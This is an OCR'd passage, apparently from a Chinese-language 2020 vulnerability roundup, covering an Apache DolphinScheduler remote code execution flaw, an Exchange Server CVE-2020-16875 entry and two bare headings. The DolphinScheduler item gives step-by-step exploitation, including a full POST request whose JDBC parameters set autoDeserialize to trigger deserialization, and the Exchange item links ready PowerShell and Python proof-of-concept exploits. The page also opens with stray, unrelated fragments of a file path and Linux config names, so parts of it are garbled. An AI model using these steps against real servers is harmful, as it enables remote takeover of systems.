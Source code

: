 alsa

alternatives

anacrontab

asound.conf

at.deny

audisp

audit

9.深信服 SSL VPN 远程代码执行漏洞（暂无）
==========================

  

10.Apache DolphinScheduler 远程代码执行漏洞
===================================

它是一个分布式去中心化，易扩展的可视化DAG(有向无环图)工作流任务调度系统。利用漏洞:需要登录权限, \[09/12 态势感知\]提供一组默认密码。

该漏洞存在于数据源中心未限制添加的jdbc连接参数,从而实现JDBC客户端反序列化。1、登录到面板 -> 数据源中心。

![](https://cdn.nlark.com/yuque/0/2020/webp/264068/1600228302988-8ea8820b-5e51-48ed-a87e-75745ca2df4f.webp?x-oss-process=image%2Fresize%2Cw_300)

2、jdbc连接参数就是主角,这里没有限制任意类型的连接串参数。

![](https://cdn.nlark.com/yuque/0/2020/webp/264068/1600228303068-9bac1fcf-8743-4d8c-97b9-c06a17e85fb8.webp?x-oss-process=image%2Fresize%2Cw_300)

3、将以下数据添加到jdbc连接参数中,就可以直接触发。

![](https://cdn.nlark.com/yuque/0/2020/webp/264068/1600228303063-ac064c93-71b2-4843-8121-0c99e82b3790.webp?x-oss-process=image%2Fresize%2Cw_300)

POST /dolphinscheduler/datasources/connect HTTP/1.1

  

type=MYSQL&name=test&note=&host=127.0.0.1&port=3306&database=test&

principal=&userName=root&password=root&connectType=&

other={"detectCustomCollations":true,"autoDeserialize":true}

  

关于MySQL JDBC客户端反序列化漏洞的相关参考：

[https://www.anquanke.com/post/id/203086](https://www.anquanke.com/post/id/203086)

11.Exchange Server 远程代码执行漏洞
===========================

CVE-2020-16875: Exchange Server 远程代码执行漏洞（202009月度漏洞）

ps 版POC：[https://srcincite.io/pocs/cve-2020-16875.ps1.txt](https://srcincite.io/pocs/cve-2020-16875.ps1.txt)

py 版POC：[https://srcincite.io/pocs/cve-2020-16875.py.txt](https://srcincite.io/pocs/cve-2020-16875.py.txt)

12.Apache DolphinScheduler 权限覆盖漏洞\[CVE-2020-13922\]  
